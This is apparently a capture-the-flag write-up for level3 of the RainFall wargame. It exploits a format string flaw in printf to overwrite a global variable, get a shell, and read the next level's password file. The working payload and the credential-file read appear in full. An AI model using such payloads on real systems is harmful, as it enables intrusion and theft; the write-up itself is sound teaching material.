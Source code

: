 ## Basic analysis

As we see, **level3** binary prints out what is being fed to it via stdin:
~~~shell
./level3 
42 let me pass
42 let me pass
~~~
Let's make a secure copy of the executable and examine it with **Ghidra**. We will discover that **main()** is just calling **v()** and returns.  
**v()** is using **fgets()** to get the input from user, saves it into the premade **char xxx[520]** string and prints it using **printf()**. That is what we see as program execution.
~~~C
void main(void)

{
  v();
  return;
}

void v(void)

{
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
~~~
That's not all of course - there is condition comparing variable **m** to number **64** (0x40 in hexa). If true, it will let us pass to next level.
Thus, we need to somehow modify the variable m. It is not defined in the scope of v(), nor passed through from main, so it must be a global variable.
We use **gdb**'s "info variables" to get its memaddress: **0x0804988c**

## Format string attack
**printf()** can be utilized for **format string attack** as described [HERE](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/) or [HERE](https://infosecwriteups.com/exploiting-format-string-vulnerability-97e3d588da1b). We will force the insertion of value 64 into the **m** variable memory position by using printf's variadic nature.

**Step 1**: we find where in the stack is the variable read by fgets - this will be our way in. We do this by explouting printf to print us the memory:
~~~shell
level3@RainFall:~$ python -c 'print "AAAA" + " %p" * 10' | ./level3
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
~~~
**0x41414141** is our "AAAA" input - AAAA is 41414141 in hex - on position number 4.

**Step 2**: We will craft the payload using **%[number]$n** formatter to precisely target the memory position. Variable m needs to be 64 bytes. Its memory address has four, so we add 60 bytes of stuff + the modifier. Like so:
~~~Shell
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit
level3@RainFall:~$ cat /tmp/exploit - | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
~~~
